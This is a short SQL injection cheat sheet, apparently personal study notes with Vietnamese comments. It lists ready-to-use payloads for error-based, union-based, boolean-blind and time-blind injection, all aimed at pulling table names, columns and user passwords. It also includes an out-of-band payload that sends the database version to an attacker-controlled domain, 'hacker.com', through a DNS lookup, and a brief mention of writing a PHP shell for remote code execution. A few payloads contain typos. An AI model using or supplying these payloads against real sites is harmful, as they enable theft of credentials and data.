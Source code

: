 # SQL-Injection
- Error-base SQLi:
    # Nhập '  để hiển thị thông báo lỗi 
    # ' or 1=1-- 
    # ' and updatexml(null,concat(0x0a,database()),null)-- 
    # ' and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database()))-- 
    # ' and updatexml(null,concat(0x0a,(select column_name from information_schema.columns where table_name=''))-- 
    # ' adn updatexml(null,concat(0x0a,(select (id,'-',password) from ''))--   
- Union-based SQLi:
    # ' order by 1,2,3... -- 
    # ' uinon select 1,2,3,4,5...--
    # ' union select 1,2,group_concat(table_name), from information_schema.tables where table_schema=database(),..-- 
    # ' union select column_name from information_schema.columns where table_name='',..-- 
    # ' union select concat(id,email,password) from table_name ...

- Blind-Boolean-based:
    # ' or length(database())=$1$--  / ' or 1=1 and database() =
    # ' or substring(database(),$1$,1)='a'-- 
    # ' or substring((select table_name from information_schema.tables where table_schema='database' limit 0,1), $1$,1)='$a$'-- 
    # ' or substring((select column_name from information_schema.tables where table_name='' limit 0,1), $1$,1)='$a$'--
    # ' or substring((select  from table_name limit 0,1), $1$,1)='$a$'--
    
    # admin'+and+(select+length(password)+from+users)=11 — &password=pass
    # admin' and substr((select password from users where (username=’user1')),1,1)=’§subpass§’ — &password=password
- Time-based Blind: 

    # 1' and if(length(database())=1,sleep($1$),null)--  : tìm số ký tự trong database
    # 1' and if(substring(database(),$1$,1)='',sleep(),null)-- : tìm lần lượt các ký tự
    # 1' and if(substring(select table_name from information_schema.tables where table.schema='database' limit 0,1),$1$,1)='$a$',sleep(5),null)-- 

- Out-of-band:  1’;select load_file(concat('\\\\',version(),'.hacker.com\\s.txt'));

select version() into outfile('\\burp-collab\a')
Hai lệnh trên nối đầu ra của các lệnh version() hoặc database() vào truy vấn độ phân giải DNS cho miền “hacker.com”.
Hình ảnh bên dưới cho thấy phiên bản và tên của cơ sở dữ liệu đã được thêm vào thông tin DNS cho miền độc hại như thế nào. Kẻ tấn công kiểm soát máy chủ có thể đọc thông tin từ các tệp nhật ký.

mount.cifs //Win10-AP/Shared /home/kali/Desktop/FileSharing -o user=kali
Rce tương tác với hệ thông, thực thi shell, ghi shell php = cách giống upload file để injection
